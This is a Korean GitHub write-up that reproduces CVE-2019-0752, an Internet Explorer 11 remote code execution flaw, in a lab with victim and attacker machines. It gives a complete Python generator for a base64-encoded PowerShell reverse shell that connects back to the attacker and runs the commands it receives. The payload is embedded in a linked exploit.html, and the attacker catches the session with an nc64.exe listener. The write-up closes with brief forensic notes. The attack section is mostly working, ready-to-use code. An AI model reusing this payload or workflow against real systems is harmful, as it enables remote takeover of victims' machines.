

# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS              | Build     | IP              | App                              |
| :---     | :---            | :---      | :---            |:---                              |
| Victim   | Windows 10 1809 | 17763.379 | 192.168.108.137 | internet explorer 11.379.17763.0 |
| Attacker | Windows 10 1809 | 17763.379 | 192.168.0.32    | [exploit.html](https://github.com/2jinu/CVE/blob/main/RCE/%5BWindows%5D%20CVE-2019-0752/file/exploit.html) |

# **Setting**

페이로드 생성

```py
import sys
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
```


Exploit Code에 생성된 페이로드 삽입

    base64로 encoding된 부분만 Exploit Code중 <!--Payload--> 부분에 삽입

세션 대기

```
nc64.exe -nvlp [reverse port] -s [reverse ip]
```




# **Exploit**

Victim이 페이로드가 삽입된 exploit.html에 접근한뒤 activex를 실행하면 Attacker가 Victim의 쉘 획득


# **etc**

process tree 확인


패킷 확인


이벤트뷰어(eventvwr) 확인

    응용 프로그램 및 서비스 로그 > Windows PowerShell


IE history에서 html확인

    %localappdata%\Microsoft\Windows\History


인터넷 옵션 > 고급 > 보안에서 "[내 컴퓨터]에 있는 파일에서 액티브 콘텐츠가 실행되는 것을 허용"을 체크하면 activex 실행을 묻지않고 바로 실행

